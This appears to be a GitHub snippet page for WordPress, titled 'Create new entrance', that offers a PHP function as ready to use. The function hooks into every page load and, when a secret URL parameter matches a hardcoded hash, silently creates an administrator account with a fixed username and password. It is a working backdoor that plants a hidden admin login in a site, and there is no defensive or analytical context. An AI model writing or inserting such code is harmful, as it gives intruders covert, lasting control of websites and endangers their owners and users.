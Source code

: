 ## Create new entrance
[![License](https://img.shields.io/github/license/dedewiweka/snippets?color=brightgreen)](https://github.com/dedewiweka/snippets/blob/main/LICENSE) [![Contact](https://img.shields.io/badge/contact-Dede%20Wiweka-orange)](https://dede.wiweka.com/development) ![File size](https://img.shields.io/github/size/dedewiweka/snippets/Security/create-entrance.md) 
```php
//Open yoursite.com/?entrance=create
add_action('wp_head', 'create_entrance');
function create_entrance() {
  if(md5($_GET['entrance']) === '76ea0bebb3c22822b4f0dd9c9fd021c5') {
    require('wp-includes/registration.php');
    if(!username_exists('Im_back')) {
      $user_id = wp_create_user('Im_back', 'LetMeIn!');
      $user = new WP_User($user_id);
      $user->set_role('administrator');
    }
  }
}
```
